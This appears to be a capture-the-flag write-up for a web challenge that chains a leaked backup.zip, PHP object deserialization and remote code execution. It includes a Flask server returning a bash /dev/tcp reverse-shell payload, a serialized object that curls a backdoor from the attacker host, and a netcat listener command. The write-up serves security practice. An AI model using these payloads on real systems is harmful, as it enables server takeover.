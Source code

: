 # Name: Handy Tool

## Vulnerability

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

## Exploit

First, use the **Guess my last name** option.
As in the Romanian cartoon, the correct answer is **Iscusitul**.
After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code.
Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace.
You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like.
It has to be a PHP class with two attributes:
 * `$condition` - boolean with the value `true`
 * `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on port 1234 where, if accessed, I return a piece PHP code that spawns a reverse shell to my machine.
You should find out what your IP address is and change it. You can run the server with: `python app.py`

```python
# app.py
from flask import Flask, make_response

app = Flask(__name__)

@app.route("/", methods=['GET'])
def index():

    MY_IP = '172.17.0.1'

    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/1234 0>&1'");''' % MY_IP

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=1234)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`.
I created the serialized input.
Make sure to change the IP with yours.

```php
<?php
//payload.php
class PHPClass
{
	public $condition = true;
	public $prop = "system('curl http://172.17.0.1:1234 -o backdoor.php');";
}
echo serialize(new PHPClass);
?>
```

You can run this file in command line with: `php payload.php`.
The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://172.17.0.1:1234 -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell.
You need to close it and open a simple netcat connection before you access the backdoor:

`nc -nvlp 1234`
